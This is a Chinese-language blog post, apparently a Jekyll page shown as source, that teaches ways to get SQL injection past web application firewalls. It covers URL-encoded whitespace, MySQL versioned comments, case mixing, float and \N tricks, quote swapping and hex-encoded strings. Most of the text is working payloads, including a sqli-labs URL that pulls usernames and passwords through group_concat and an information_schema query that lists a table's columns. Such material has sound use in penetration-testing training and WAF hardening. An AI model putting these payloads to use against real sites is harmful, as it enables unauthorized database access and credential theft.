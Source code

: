 ```yaml
---
layout: post
title: SQL注入绕过
categories: 网络安全
description: SQL注入绕过
keywords: SQL注入绕过
---
```


SQL注入绕过技术

### 1、SQL注入绕过

SQL 注入绕过技术 已经是一个老生常谈的内容了，防注入可以使用某些云 waf加速乐等安全产品，这些产品会自带 waf 属性拦截和抵御 SQL 注入，也有一些产品会在服务器里安装软件，例如 iis 安全狗、d 盾、还有就是在程序里对输入参数进行过滤和拦截 例如 360webscan 脚本等只要参数传入的时候就会进行检测，检测到有危害语句就会拦截。SQL 注入绕过的技术也有许多。但是在日渐成熟的 waf 产品面前，因为 waf 产品的规则越来越完善，所以防御就会越来越高，
安全系统也跟着提高，对渗透测试而言，测试的难度就越来越高了。

### 2、空格字符绕过

在网站的url中有汉字复制出来的时候会有一些`%+xxx`的编码，这些都是防止乱码进行的编码，各种符合也都有各自的编码

在一个url中空格字符`%20`可以替换的有很多种，如下:

```txt
%09 TAB 键（水平）
%0a 新建一行
%0c 新的一页
%0d return 功能
%0b TAB 键（垂直）
%a0 空格
```

这些编码到MySQL里面都是可以当空格用的，甚至一些注释也可以当成空格

```mysql
 /**/   select * from users/*aaaaaaa*/where/*aaaaa*/id=1;
 /*!*/  select * from users/*!50009*/where/*!50009*/id=1;
 
 select * from users where id=1 /*!union*//*!select*/1,2,3,4;
```

可以将空格字符替换成注释` /**/ `，还可以使用` /*!*/`

这里的根据 mysql 版本的内容不注释，比如：

```sql
select * from users /*!50009*//*!where*/id=1;
```

这条语句就可以正常使用，where虽然被注释了，但是是可以运行的。所以`/*!*/`是可以被当成空格用的。ps：在其他数据库中不行，但是在MySQL中可以。这是MySQL为了兼容导致的一个问题，不同版本也有不同的情况，有的版本是50009，有的版本是40001。

### 3、大小写绕过

将 字符串设置为大小写，例如 and 1=1 转成 AND 1=1AnD 1=1，一些的正则写的不严谨，就可以绕过，反正SQL是不区分大小写的。

```sql
select * from users where id=1 UNION SELECT 1,2,3,4;
select * from users where id=1 UniON SelECT 1,2,3,4;
```

一些特殊符号被过滤，可以结合上面的符号替换

```txt
Less-27/?id=9999999' union select 1,(select group_concat(username,password)from users),3 and '1

# 把上面的攻击语句经过符号和大小写替换，成为下面的内容，成功绕过

Less-27/?id=9999999%27%09UniOn%09SeLeCt%091,(SelEct%09group_concat(username,password)from%09users),3%09and%20%271
```

### 4、浮点数绕过

一些匹配机制是校验整型或者字符型的，这个时候使用浮点型就可以绕过了。

```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;

# 构建的语句
# sql.php?name=\N'union select user(),\Nfrom users--+
```

这俩效果是一样的

### 5、NULL值绕过

`select \N;`：代表NULL

```sql
select * from users where id=\Nunion select 1,2,3,\N;
select * from users where id=\Nunion select 1,2,3,\Nfrom users;

# 构建的语句
# sql.php?name=\N'union select user(),\Nfrom users--+
```

这俩效果一样

### 6、双引号绕过

如果 waf 拦截过滤单引号的时候，可以使用双引号 在 mysql 里也可以用双引号作为字符串

```sql
select * from users where id='1';
select * from users where id="1";
```

也可以将字符串转换成 16 进制 再进行查询。

```sql
select hex('admin'); # 转换为16进制
select * from users where username='admin';
select * from users where username=0x61646D696E;
```

如果 gpc 开启了，但是注入点是整形 也可以用 hex 十六进制进行绕过

```sql
select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where TABLE_NAME='users' limit 1),4;

select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where TABLE_NAME=0x7573657273 limit 1),4;
```

